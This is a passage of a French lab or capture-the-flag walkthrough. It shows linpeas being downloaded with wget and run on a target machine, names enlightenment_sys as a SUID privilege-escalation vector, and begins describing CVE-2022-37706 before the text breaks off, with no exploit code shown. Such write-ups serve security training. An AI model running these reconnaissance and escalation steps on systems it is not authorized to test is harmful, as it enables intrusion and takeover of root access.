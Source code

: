 **Téléchargement sur la machine cible :**

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
```

**Exécution :**

```bash
./linpeas.sh
```

### Analyse des résultats

LinPEAS identifie plusieurs binaires SUID intéressants :

<div class="bg-white dark:bg-dark-navbar p-6 rounded-xl shadow-lg my-4">
    <h4 class="text-xl font-bold mb-4 text-red-600 dark:text-red-400 flex items-center">
        <i class="fas fa-exclamation-triangle mr-2"></i>Binaires SUID suspects détectés
    </h4>
    <div class="bg-gray-100 dark:bg-gray-800 p-4 rounded font-mono text-sm space-y-2">
        <div class="text-red-600 dark:text-red-400">
            -rwsr-xr-x 1 root root 27K /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
        </div>
        <div class="text-amber-600 dark:text-amber-400">
            -rwsr-xr-x 1 root root 15K /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
        </div>
    </div>
</div>

<div class="bg-red-100 dark:bg-red-900/20 border-l-4 border-red-500 p-4 my-4 rounded-r-lg">
    <p class="text-red-800 dark:text-red-200">
        <i class="fas fa-search mr-2 text-red-500"></i>
        <strong>Vecteur d'escalade identifié :</strong> Le binaire <code class="bg-red-200 dark:bg-red-800 px-2 py-1 rounded">enlightenment_sys</code> présente trois caractéristiques suspectes :
    </p>
    <ul class="mt-3 ml-6 space-y-1 text-red-700 dark:text-red-300">
        <li><strong>SUID bit activé</strong> → s'exécute avec les privilèges root</li>
        <li><strong>Binaire non standard</strong> → potentiellement vulnérable</li>
        <li><strong>Version inconnue</strong> → nécessite une vérification CVE</li>
    </ul>
</div>

## 👑 Phase 8 — Escalade de privilèges via CVE-2022-37706

### Analyse de la vulnérabilité

<div class="bg-red-50 dark:bg-red-900/20 p-6 rounded-xl border-l-4 border-red-500 my-4">
    <h4 class="text-xl font-bold text-red-600 dark:text-red-400 mb-3 flex items-center">
        <i class="fas fa-bug mr-2"></i>CVE-2022-37706 - Enlightenment Path Traversal
    </h4>
    <div class="space-y-2 text-gray-700 dark:text-gray-300">
        <div class="grid md:grid-cols-2 gap-4">
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Versions affectées :</span> Enlightenment &lt; 0.25.4
            </div>
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Type :</span> Local Privilege Escalation
            </div>
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Version installée :</span> 0.23.1
            </div>
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">CVSS Score :</span> 7.8 (High)